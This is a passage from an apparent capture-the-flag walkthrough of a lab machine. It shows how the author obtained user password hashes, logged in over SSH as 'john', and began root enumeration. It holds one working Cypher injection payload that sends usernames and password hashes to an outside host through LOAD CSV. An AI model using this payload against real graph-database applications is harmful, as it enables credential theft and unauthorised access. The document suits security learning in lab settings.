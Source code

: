 ![](./images/22.png)

- By playing around with payloads I eventually managed to get password
  - Note, screen shows only one password (I had to reset the box to get `john` hash)
  - The following query had better results (props to [0xdf](https://0xdf.gitlab.io))
  - `' match (u:user) with distinct u.username + ":" + u.password  as d LOAD CSV FROM 'http://10.10.16.48/?'+d as a return a //`

![](./images/21.png)

![](./images/24.png)

- Now we can `ssh` as john

## Root
- Enumerate 
  - `sudo -l`

![](./images/25.png)
